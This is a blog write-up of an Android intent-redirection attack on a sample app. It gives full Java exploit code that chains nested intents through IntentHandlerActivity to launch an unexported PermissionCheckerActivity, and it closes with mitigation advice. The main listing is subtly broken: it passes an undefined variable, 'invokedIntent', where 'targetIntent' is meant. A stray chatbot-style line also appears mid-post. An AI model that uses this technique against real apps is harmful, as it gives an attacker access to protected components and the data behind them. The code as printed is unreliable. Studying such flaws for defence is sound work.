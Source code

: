 ```yaml
---
layout: post
title: 'Intent Redirect: Unlocking Unexported Activity in Android Applications'
date: 2025-03-14 20:36 +0200
categories: Mobile
tags: Android Mobile
---
```


When building secure Android applications, handling intents safely is paramount. Intents facilitate communication between components but can also expose vulnerabilities when improperly implemented. In this writeup, we’ll explore how to exploit a chain of intents to uncover hidden functionality in the `IntentHandlerActivity` and `PermissionCheckerActivity` of a sample app.

## Overview of the Vulnerable Activities
### IntentHandlerActivity
The `IntentHandlerActivity` code introduces an intent attack surface by processing nested intents:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*jIO7J-9KyzS54GlgDgb_qQ.png)

Key observations:
- **Nested Intents:** `IntentHandlerActivity` checks for an intent with the extra key "`android.intent.extra.INTENT`".
- **Conditions**: For the nested intent to be processed,
it must Have `return == 42` and also include another intent (`nextIntent`) with a reason `extra`.
- **Action**: If `reason == "next"`, `nextIntent` is launched.

### PermissionCheckerActivity
`PermissionCheckerActivity` responds to specific flags and permissions:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*721C45T034CBPm6v3eLGrQ.png)
This means `PermissionCheckerActivity` requires: The `FLAG_GRANT_READ_URI_PERMISSION` flag.

## The Attack Strategy
The goal is to exploit `IntentHandlerActivity` to invoke `PermissionCheckerActivity` indirectly. Since `IntentHandlerActivity` validates and launches `nextIntent`, we can craft a malicious chain of intents to meet the conditions of both activities.

## Crafting the Exploit
Below is the Java code for an activity (`MainActivity`) that constructs and launches the required intent chain:
```java
package com.example.intenttest;

import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.widget.Button;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        ((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
            Intent invokerIntent = new Intent();
            invokerIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.IntentHandlerActivity"
            ));

            Intent targetIntent = new Intent();
            targetIntent.setComponent(new ComponentName(
                    "com.attacksurface",
                    "com.attacksurface.activities.PermissionCheckerActivity"
            ));

            targetIntent.putExtra("reason", "next");
            targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

            Intent innerIntent = new Intent();
            innerIntent.putExtra("return", 42);
            innerIntent.putExtra("nextIntent", invokedIntent);

            invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);

            startActivity(invokerIntent);
        });
    }
}
```
## Exploit Breakdown
The following is a detailed breakdown of the exploit designed to target the `IntentHandlerActivity` and indirectly invoke the `PermissionCheckerActivity`:
### 1. Outer Intent (invokerIntent)
**Purpose:**
This is the outermost intent that targets the vulnerable `IntentHandlerActivity`.

**Key Properties:**

- **Target Component:** `com.attacksurface.activities.IntentHandlerActivity`
- **Payload**:
It contains an extra with the key `android.intent.extra.INTENT`, which carries a nested intent (**innerIntent**).
```java
Intent invokerIntent = new Intent();
invokerIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.IntentHandlerActivity"
));
```

### 2. Inner Intent (innerIntent)
**Purpose:**
This nested intent is validated by IntentHandlerActivity and holds the key to triggering the target activity.

**Key Properties:**

- **Validation Parameter:**
The return extra is set to 42, which satisfies a condition in IntentHandlerActivity.
- **Payload:**
It contains another nested intent (nextIntent) that will eventually be passed to PermissionCheckerActivity.
```java
Intent innerIntent = new Intent();
innerIntent.putExtra("return", 42);
innerIntent.putExtra("nextIntent", targetIntent);
```

### 3. Target Intent (targetIntent)
**Purpose:**
This intent is the core target, which will be passed and triggered in PermissionCheckerActivity via the exploit.

**Key Properties:**

- **Target Component:**
`com.attacksurface.activities.PermissionCheckerActivity`
- **Validation Parameters:**
`reason`: Set to "`next`", which satisfies a condition in `IntentHandlerActivity`.
`FLAG_GRANT_READ_URI_PERMISSION`: This flag is essential to pass the permission check in `PermissionCheckerActivity`.
```java
Intent targetIntent = new Intent();
targetIntent.setComponent(new ComponentName(
        "com.attacksurface",
        "com.attacksurface.activities.PermissionCheckerActivity"
));
targetIntent.putExtra("reason", "next");
targetIntent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
```

### 4. Linking Intents
**Process:**
The intents are chained together in a specific order:

- The `targetIntent` is embedded within `innerIntent` as the value for the key `nextIntent`.
- The `innerIntent` is embedded within `invokerIntent` as the value for the key `android.intent.extra.INTENT`.
**Outcome:**
When `invokerIntent` is launched, it triggers a chain of intent calls that bypasses restrictions, eventually leading to the launch of `PermissionCheckerActivity`.
```java
invokerIntent.putExtra("android.intent.extra.INTENT", innerIntent);
```

### 5. Triggering the Exploit
**Execution:**
The exploit is triggered when the button in the MainActivity UI is clicked, calling startActivity(invokerIntent) to start the chain of intents.
```java
((Button) findViewById(R.id.btn_launch_activity)).setOnClickListener(v -> {
    startActivity(invokerIntent);
});
```

## Exploit Flow Summary
- **MainActivity**: Constructs and launches `invokerIntent`.
- **IntentHandlerActivity**: Processes `invokerIntent` and validates `innerIntent`.
- **PermissionCheckerActivity**: Executes `targetIntent`, completing the flow and performing its functionality.

By chaining these intents together, the exploit bypasses security restrictions and successfully invokes `PermissionCheckerActivity`.

Let me know if you’d like further refinement or more detailed explanations!

## Mitigation Strategies
To prevent such vulnerabilities, developers should:

1. **Restrict Component Exposure:**
Mark sensitive activities as `android:exported="false"` unless explicitly needed.
2. **Validate Incoming Intents:**
Check the source of intents using `getCallingPackage()` or `PendingIntent`.
3. **Avoid Processing Nested Intents:**
Minimize or eliminate the use of nested intents unless absolutely necessary.
4. **Enforce Permissions:**
Require explicit permissions for sensitive activities.

## Conclusion
This writeup demonstrates how improper intent handling can expose vulnerabilities in Android applications. By crafting a malicious chain of intents, we successfully exploited the `IntentHandlerActivity` and `PermissionCheckerActivity`. This highlights the importance of secure coding practices to protect applications from intent-based attacks.

**THANKS FOR READING ❤️**

<script src="https://giscus.app/client.js"
        data-repo="0xk3r0/0xk3r0.github.io"
        data-repo-id="R_kgDOOGw3bQ"
        data-category="General"
        data-category-id="DIC_kwDOOGw3bc4CobRY"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="dark"
        data-lang="en"
        crossorigin="anonymous"
        async>
</script>
